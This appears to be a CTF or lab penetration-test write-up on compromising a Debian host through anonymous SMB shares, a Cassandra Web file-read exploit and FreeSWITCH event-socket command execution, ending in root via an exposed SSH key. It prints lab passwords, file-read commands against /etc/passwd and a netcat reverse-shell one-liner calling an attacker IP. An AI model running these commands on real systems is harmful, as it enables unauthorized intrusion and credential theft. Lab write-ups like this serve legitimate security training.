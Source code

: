 #Pwned! 
```
192.168.206.240
```
# Enumeration

Debian 10+deb10u2

## SMB
Port 139 - Samba smbd 3.X - 4.X
Port 445 - Samba smbd 4.9.5
```
nxc smb 192.168.229.240 -u '' -p '' --shares
```
```
print$                          Printer Drivers
backup          READ            Backup web directory shares
IPC$                            IPC Service (Samba 4.9.5-Debian)
```
PASS POL
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241121171143.png?raw=true)
```
nxc smb 192.168.229.240 -u '' -p '' --rid-brute 3000
```
hash.conf.xml
```
<remote name="Test1" host="10.0.0.10" port="8021" password="ClueCon" interval="1000" />
```
sofia.conf.xml
```
The rabbit hole goes deep.  This includes all the
profiles in the sip_profiles directory that is up
one level from this directory.
```
Interesting files
```
/etc/freeswitch/jingle_profiles/client.xml
/etc/freeswitch/jingle_profiles/server.xml
/etc/freeswitch/autoload_configs/hiredis.conf.xml
/etc/freeswitch/autoload_configs/hash.conf.xml
/etc/freeswitch/autoload_configs/switch.conf.xml
/etc/freeswitch/autoload_configs/event_socket.conf.xml
/usr/share/doc/cassandra/CQL.html
```
## HTTP 80
Apache httpd 2.4.38
forbidden

## HTTP 3000
cassandra web
version: thin httpd
DIRS
```
/hosts

[
  {
    "ip": "127.0.0.1",
    "id": "39c6f1e3-d798-44ce-b216-ce0f664fc0af",
    "datacenter": "datacenter1",
    "rack": "rack1",
    "release_version": "3.11.13",
    "status": "up"
  }
]

events
```
 there is an exploit for cassandra web
 https://www.exploit-db.com/exploits/49362
## 8021 freeswitch
FreeSWITCH mod_event_socket

# Exploitation
## Cassandra web
https://www.exploit-db.com/exploits/49362
if we follow the recommendations from the exploit we can see
```
python cass_web.py -p 3000 192.168.206.240 /etc/passwd
```
It works! We get users we already had
```
python cass_web.py -p 3000 192.168.206.240 /proc/self/cmdline
```
we get a new password!!
*SecondBiteTheApple330*
for user cassie
double checking files we downloaded from smb we see a new password
```
python cass_web.py -p 3000 192.168.206.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml
```
we get a password
```
<param name="password" value="StrongClueConEight021"/>
```

WE CANNOT SSH WITH ANY OF THE CREDENTIALS....
## FreeSWITCH
```
python freeswitch-exploit.py 192.168.206.240 'ls' StrongClueConEight021
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122110749.png?raw=true)
```
python freeswitch-exploit.py 192.168.206.240 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.190 80 >/tmp/f' StrongClueConEight021
```
we get a shell!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111752.png?raw=true)
# PrivEsc
## Shell upgrade + basic info
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122111940.png?raw=true)

## Manual
we see a unusual path for an id_rsa
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122112202.png?raw=true)
we switch to user cassie with our password
```
su cassie
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122113444.png?raw=true)
with the id_rsa we saw earlier we can ssh into root
```
ssh root@localhost -i id_rsa
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114103.png?raw=true)

the local.txt flag is a little bit hidden too
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241122114317.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

